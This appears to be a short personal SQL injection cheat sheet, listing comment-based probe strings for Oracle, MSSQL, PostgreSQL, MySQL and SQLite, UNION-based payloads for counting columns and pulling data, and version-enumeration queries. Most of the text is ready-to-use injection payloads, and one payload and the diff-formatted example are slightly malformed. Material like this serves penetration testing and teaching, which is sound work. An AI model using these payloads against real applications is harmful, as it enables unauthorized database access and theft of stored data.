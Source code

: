 # Entry point
if the response is unchanged after one of these payloads - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 -- 
' -- 
" -- 
 /*
' /* 
" /* 
```
MySQL
```
 # 
' # 
" # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until it is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

example query:
```diff
@@ SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id=" @@ - -1" UNION SELECT 1,2,3 /* @@ " @@
```
# Version enumeration

PostgreSQL / MySQL / MariaDB
```
SELECT version()
```
MSSQL / MySQL
```
SELECT @@version
```
SQLite
```
SELECT sqlite_version()
```
Oracle
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```
